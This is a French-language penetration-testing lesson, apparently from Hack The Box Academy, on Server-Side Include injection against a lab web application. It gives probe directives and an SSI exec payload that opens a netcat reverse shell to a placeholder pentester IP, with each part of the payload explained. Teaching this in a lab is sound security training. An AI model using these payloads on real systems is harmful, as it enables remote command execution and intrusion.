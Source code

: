 Exemple d'exploitation d'injection SSI
======================================

* * * * *

Pratiquons l'injection SSI sur une application Web accessible sur Internet (la cible peut être générée à la fin de cette section). Accédez à la fin de cette section et cliquez sur `Click here to spawn the target system`, puis utilisez la Pwnbox fournie ou une VM locale pour suivre. En naviguant jusqu'à la cible générée, nous rencontrons ci-dessous.

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.png)

Concentrons-nous sur l'identification d'une vulnérabilité d'injection SSI en soumettant certaines des directives SSI mentionnées dans la section précédente.

Code : html

```
1\. <!--#echo var="DATE_LOCAL" -->
2\. <!--#printenv -->

```

#### Date

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.5.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_2.png)

#### Toutes les variables

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_3.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_4.png)

Comme nous pouvons le voir, l'application est en effet vulnérable à SSI Injection ! Maintenant, passez à l'exercice à la fin de cette section et tirez parti de toutes les directives SSI répertoriées dans la section précédente qui peuvent entraîner l'exécution de commandes sur le système sous-jacent pour le terminer.

Remarque : Comme nous l'avons vu, l'exécution de commandes du système d'exploitation via SSI sur l'application cible est possible, mais qui n'aime pas les shells ? Gardez à l'esprit la charge utile du shell inverse suivante qui fonctionnera même contre OpenBSD-netcat qui n'inclut pas la fonctionnalité d'exécution par défaut. Notez également que vous ne pourrez pas obtenir de shell inversé dans l'exercice de cette section, en raison de restrictions réseau !

#### Coque inversée

Code : html

```
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

```

-   `mkfifo /tmp/foo`: Créer un fichier spécial FIFO dans`/tmp/foo`
-   `nc <IP> <PORT> 0</tmp/foo`: Connectez-vous à la machine pentester et redirigez le descripteur d'entrée standard
-   `| bin/bash 1>/tmp/foo`: Exécute `/bin/bash`la redirection du descripteur de sortie standard vers`/tmp/foo`
-   `rm /tmp/foo`: Nettoyer le fichier FIFO
